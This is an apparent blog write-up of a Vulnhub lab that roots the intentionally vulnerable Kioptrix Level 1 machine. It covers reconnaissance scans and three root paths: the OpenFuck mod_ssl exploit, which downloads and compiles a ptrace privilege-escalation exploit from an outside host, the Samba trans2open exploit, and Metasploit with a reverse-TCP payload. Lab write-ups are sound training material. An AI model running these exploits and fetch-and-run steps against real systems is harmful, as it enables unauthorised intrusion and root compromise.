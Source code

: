 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 1"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp1/
tags: vulnhub
---
```

> "Learning is not attained by chance. It must be sought for with ardor and attended with diligence." – Abigail Adams  
  
We'll be doing the first level of Vulnhub's K1optr1x series. You can download the machine here [K1optr1x: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)  

![][1]  

### 0x00 Recon

<details>
  <summary>
    get vm's IP
  </summary>
<pre>
<lf>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo arp-scan 192.168.222.0/24  
[sudo] password for imd:   
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129  
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)  
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.  
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.  
192.168.222.130 00:0c:29:2f:e1:7        VMware, Inc.  
192.168.222.254 00:50:56:e4:e3:5b       VMware, Inc.  

</pre>  
</details>  
  
Target IP Address: 192.168.222.130

### 0x01 Scanning

Let's first scan it using NMAP. If you want to know what my nmap commands are doing, go check it [here](https://nmap.org/book/man-briefoptions.html) 

<details>
  <summary>
    nmap scan
  </summary>
<pre>
<lf>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nmap -Pn -n -vvvv -sV -p- 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-05 05:58 EST
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 05:58
Scanning 192.168.222.130 [65535 ports]
Discovered open port 22/tcp on 192.168.222.130
Discovered open port 80/tcp on 192.168.222.130
Discovered open port 139/tcp on 192.168.222.130
Discovered open port 443/tcp on 192.168.222.130
Discovered open port 111/tcp on 192.168.222.130
Discovered open port 1024/tcp on 192.168.222.130
Completed Connect Scan at 05:59, 9.91s elapsed (65535 total ports)
Initiating Service scan at 05:59
Scanning 6 services on 192.168.222.130
Completed Service scan at 05:59, 14.04s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.222.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.07s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.01s elapsed
Nmap scan report for 192.168.222.130
Host is up, received user-set (0.0016s latency).
Scanned at 2020-12-05 05:58:58 EST for 29s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack 1 (RPC #100024)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.65 seconds

</pre>  
</details>  
  
There are 6 open ports and the services running under each port. Let's check each open port. port 80 is open. Opened firefox and simply browse to http://192.168.222.130  

[![][2]][2]

It's a test page, I viewed the source code and there's nothing much I can find. We can attempt to scan if there are hidden files and directories but I don't think this is the way it was built by the creator. 

<details>
  <summary>
    dirb scan
  </summary>
<pre>
<lf>
<b>imd@kali:~$</b> dirb http://192.168.222.130

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 10 13:14:09 2020
URL_BASE: http://192.168.222.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.222.130/ ----
+ http://192.168.222.130/~operator (CODE:403|SIZE:273)                                                                                                               
+ http://192.168.222.130/~root (CODE:403|SIZE:269)                                                                                                                   
+ http://192.168.222.130/cgi-bin/ (CODE:403|SIZE:272)                                                                                                                
+ http://192.168.222.130/index.html (CODE:200|SIZE:2890)                                                                                                             
==> DIRECTORY: http://192.168.222.130/manual/                                                                                                                        
==> DIRECTORY: http://192.168.222.130/mrtg/                                                                                                                          
==> DIRECTORY: http://192.168.222.130/usage/                                                                                                                                                       
---- Entering directory: http://192.168.222.130/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                  
---- Entering directory: http://192.168.222.130/mrtg/ ----
+ http://192.168.222.130/mrtg/index.html (CODE:200|SIZE:17318)                                                                                                                                                    
---- Entering directory: http://192.168.222.130/usage/ ----
+ http://192.168.222.130/usage/index.html (CODE:200|SIZE:4262)      

-----------------
END_TIME: Thu Dec 10 13:14:59 2020
DOWNLOADED: 13836 - FOUND: 6

</pre> 
</details>  
  
~root and ~operator is forbidden, manual dir are just manual docs, the rest are not found or nothing interesting. Now let's dig deeper and scan the web using Nikto.  

<details>
  <summary>
    scanning phase
  </summary>
<pre>
<lf>
<b>imd@kali:~$</b> nikto -h http://192.168.222.130
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.222.130
+ Target Hostname:    192.168.222.130
+ Target Port:        80
+ Start Time:         2020-12-05 06:01:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<u>+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</u>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2020-12-05 06:02:37 (GMT-5) (47 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

</pre>
</details>  
  
Web server is apache 1.3.20 and VM is running Red Hat Linux. possible remote shell on mod_ssl 2.8.4-7. exploit-db is my preferred website searching CVEs  
[](https://www.exploit-db.com/exploits/764)

### 0x02 Method 1: Openfuck exploit

<details>
  <summary>
    searchsploit result
  </summary>
<pre>
<lf>
<b>imd@kali:~$</b> searchsploit OpenFuckV2
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                          | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                          | unix/remote/47080.c
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

</pre>  
</details>  
  
So now we know OpenFuck exploit, download it and let's follow the instruction inside the comment block. I've downloaded the updated version by typing the command `searchsploit -m 47080.c`

<details>
  <summary>
    compile openfuck
  </summary>
<pre>
<lf>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 47080.c
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/47080.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> mv 47080.c openfuck.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo apt-get install libssl-dev
[sudo] password for imd: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
libssl-dev is already the newest version (1.1.1g-1+0~20200421.17+debian10~1.gbpf6902f).
0 upgraded, 0 newly installed, 0 to remove and 169 not upgraded.

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o openfuck openfuck.c -lcrypto  
  
</pre>
</details>  
  
Run the exploit first to see the options how to use it. It requires you to input the offset, target IP, port, and number of connections. 
`Usage: ./openfuck target box [port] [-c N]`  

<details>
  <summary>
    openfuck result
  </summary>
<pre>
<lf>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck 0x6b 192.168.222.130 443 -c 50

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f82e0
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--14:57:47--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.66 KB/s

14:57:54 (1.66 KB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 7914
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
<p style="color:#05c820">
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
</p>

</pre>
</details>

There we have it, root access! You can go further changing the root password or create another user with root privileges for maintaning access but is not necessary since we already have root. Challenge complete.. Congrats!

<details>
  <summary>
    root access
  </summary>
<pre>
<lf>
passwd root
New password: root
BAD PASSWORD: it is too short
Retype new password: root
Changing password for user root
passwd: all authentication tokens updated successfully

</pre>
</details>  
  
![][3]

### 0x03 Method 2: Samba exploit

Earlier we saw port 139 (Samba) is open. Let's scan what version it is and search for a possible exploit

<details>
  <summary>
    samba scan
  </summary>
<pre>
<lf>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nbtscan 192.168.222.130
Doing NBT name scan for addresses from 192.168.222.130

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
192.168.222.130  KIOPTRIX         <server>  KIOPTRIX         00:00:00:00:00:00

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> enum4linux -a 192.168.222.130
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Dec 10 16:12:25 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.222.130
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ======================================================= 
|    Enumerating Workgroup/Domain on 192.168.222.130    |
 ======================================================= 
[+] Got domain/workgroup name: MYGROUP

 =============================================== 
|    Nbtstat Information for 192.168.222.130    |
 =============================================== 
Looking up status of 192.168.222.130
        KIOPTRIX        <00> -         B <ACTIVE>  Workstation Service
        KIOPTRIX        <03> -         B <ACTIVE>  Messenger Service
        KIOPTRIX        <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        MYGROUP         <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        MYGROUP         <1d> -         B <ACTIVE>  Master Browser
        MYGROUP         <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================== 
|    Session Check on 192.168.222.130    |
 ======================================== 
[+] Server 192.168.222.130 allows sessions using username '', password ''

 ============================================== 
|    Getting domain SID for 192.168.222.130    |
 ============================================== 
Domain Name: MYGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ========================================= 
|    OS information on 192.168.222.130    |
 ========================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.222.130 from smbclient: 
[+] Got OS info for 192.168.222.130 from srvinfo:
        KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
        platform_id     :       500
        os version      :       4.5
        server type     :       0x9a03

 ================================ 
|    Users on 192.168.222.130    |
 ================================ 
Use of uninitialized value $users in print at ./enum4linux.pl line 874.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.

Use of uninitialized value $users in print at ./enum4linux.pl line 888.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.

 ============================================ 
|    Share Enumeration on 192.168.222.130    |
 ============================================ 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

[+] Attempting to map shares on 192.168.222.130
//192.168.222.130/IPC$  [E] Can't understand response:
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
//192.168.222.130/ADMIN$        [E] Can't understand response:
tree connect failed: NT_STATUS_WRONG_PASSWORD

 ======================================================= 
|    Password Policy Information for 192.168.222.130    |
 ======================================================= 
[E] Unexpected error from polenum:


[+] Attaching to 192.168.222.130 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: SMB SessionError: 0x5

[+] Trying protocol 445/SMB...

        [!] Protocol failed: [Errno Connection error (192.168.222.130:445)] [Errno 111] Connection refused


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 0


 ================================= 
|    Groups on 192.168.222.130    |
 ================================= 

[+] Getting builtin groups:
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Account Operators] rid:[0x224]
group:[System Operators] rid:[0x225]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]

[+] Getting builtin group memberships:
Group 'Power Users' (RID: 547) has member: Couldn't find group Power Users
Group 'Users' (RID: 545) has member: Couldn't find group Users
Group 'Backup Operators' (RID: 551) has member: Couldn't find group Backup Operators
Group 'Print Operators' (RID: 550) has member: Couldn't find group Print Operators
Group 'Guests' (RID: 546) has member: Couldn't find group Guests
Group 'System Operators' (RID: 549) has member: Couldn't find group System Operators
Group 'Administrators' (RID: 544) has member: Couldn't find group Administrators
Group 'Replicator' (RID: 552) has member: Couldn't find group Replicator
Group 'Account Operators' (RID: 548) has member: Couldn't find group Account Operators

[+] Getting local groups:
group:[sys] rid:[0x3ef]
group:[tty] rid:[0x3f3]
group:[disk] rid:[0x3f5]
group:[mem] rid:[0x3f9]
group:[kmem] rid:[0x3fb]
group:[wheel] rid:[0x3fd]
group:[man] rid:[0x407]
group:[dip] rid:[0x439]
group:[lock] rid:[0x455]
group:[users] rid:[0x4b1]
group:[slocate] rid:[0x413]
group:[floppy] rid:[0x40f]
group:[utmp] rid:[0x415]

[+] Getting local group memberships:

[+] Getting domain groups:
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]

[+] Getting domain group memberships:
Group 'Domain Admins' (RID: 512) has member: Couldn't find group Domain Admins
Group 'Domain Users' (RID: 513) has member: Couldn't find group Domain Users

<b>imd@kali:~$</b> nmap --script smb-enum-shares -p 139 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-11 04:14 EST
Nmap scan report for 192.168.222.130
Host is up (0.00091s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds

<b>imd@kali:~$</b> smbmap -H 192.168.222.130 -P 139
[+] Guest session   .   IP: 192.168.222.130:139 Name: 192.168.222.130 

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> smbclient -L 192.168.222.130
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\imd's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

</pre>
</details>  

Note: if you got an error `[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.` add this line on /etc/samba/smb.conf under [global] `client min protocol = CORE` it should look like this  

<details>
  <summary>
    smb.conf
  </summary>

```

#======================= Global Settings =======================

[global]

client min protocol = CORE


## Browsing/Identification ###

# Change this to the workgroup/NT-domain name your Samba server will part of
   workgroup = WORKGROUP      

```
</details>

Okay. We still can't figure out what is the samba version. Let's try other tools of the trade.
<details>
  <summary>
    smbver.sh
  </summary>
<pre>
<lf>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./smbver.sh 192.168.222.130 139
192.168.222.130: 
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b>

</pre>
</details>

We tried to use [smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but nothing happened. Opened up wireshark and after capturing the packets, run the script and now we see **Samba 2.2.1a**

[![][4]][4]

Credits: [https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

<details>
  <summary>
    root access
  </summary>
<pre>
<lf>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit samba 2.2.1
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                        | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                   | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 10.c
  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/10.c


<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o samba 10.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba 
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./samba [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba -b 0 192.168.222.130
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
<p style="color:#05c820">
uid=0(root) gid=0(root) groups=99(nobody)

whoami
root
</p>

</pre>
</details>

Searched for the exploit, download, compile, run. We're now root!

### 0x04 Method 3: Metasploit

<details>
  <summary>
    metasploit search
  </summary>
<pre>
<lf>
<b>imd@kali:~$</b> msfconsole

Metasploit tip: Metasploit can be configured at startup, see msfconsole --help to learn more

[*] Starting persistent handler(s)...
<b>msf5 ></b> search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/samba_symlink_traversal                           normal     No     Samba Symlink Directory Traversal
   1   auxiliary/dos/samba/lsa_addprivs_heap                                 normal     No     Samba lsa_io_privilege_set Heap Overflow
   2   auxiliary/dos/samba/lsa_transnames_heap                               normal     No     Samba lsa_io_trans_names Heap Overflow
   3   auxiliary/dos/samba/read_nttrans_ea_list                              normal     No     Samba read_nttrans_ea_list Integer Overflow
   4   auxiliary/scanner/rsync/modules_list                                  normal     No     List Rsync Modules
   5   auxiliary/scanner/smb/smb_uninit_cred                                 normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   6   exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   7   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   8   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   9   exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   10  exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   11  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   12  exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   13  exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   14  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   16  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   19  exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   20  exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   21  exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   22  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow
   23  exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   24  exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   25  post/linux/gather/enum_configs                                        normal     No     Linux Gather Configurations

</pre>
</details>

Search for the exploit. Interact with a module by name or index, `use 15` or `use exploit/linux/samba/trans2open`

<details>
  <summary>
    root access
  </summary>
<pre>
<lf>
<b>msf5 ></b> use exploit/linux/samba/trans2open
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> set RHOSTS 192.168.222.130
RHOSTS => 192.168.222.130
<b>msf5 exploit(linux/samba/trans2open) ></b> set LHOSTS 192.168.222.129
LHOSTS => 192.168.222.129
<b>msf5 exploit(linux/samba/trans2open) ></b> set RPORT 139
RPORT => 139
<b>msf5 exploit(linux/samba/trans2open) ></b> show payload
[-] Invalid parameter "payload", use "show -h" for more information
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads

Compatible Payloads
===================

   #   Name                                      Disclosure Date  Rank    Check  Description
   -   ----                                      ---------------  ----    -----  -----------
   0   generic/custom                                             manual  No     Custom Payload
   1   generic/debug_trap                                         manual  No     Generic x86 Debug Trap
   2   generic/shell_bind_tcp                                     manual  No     Generic Command Shell, Bind TCP Inline
   3   generic/shell_reverse_tcp                                  manual  No     Generic Command Shell, Reverse TCP Inline
   4   generic/tight_loop                                         manual  No     Generic x86 Tight Loop
   5   linux/x86/adduser                                          manual  No     Linux Add User
   6   linux/x86/chmod                                            manual  No     Linux Chmod
   7   linux/x86/exec                                             manual  No     Linux Execute Command
   8   linux/x86/meterpreter/bind_ipv6_tcp                        manual  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
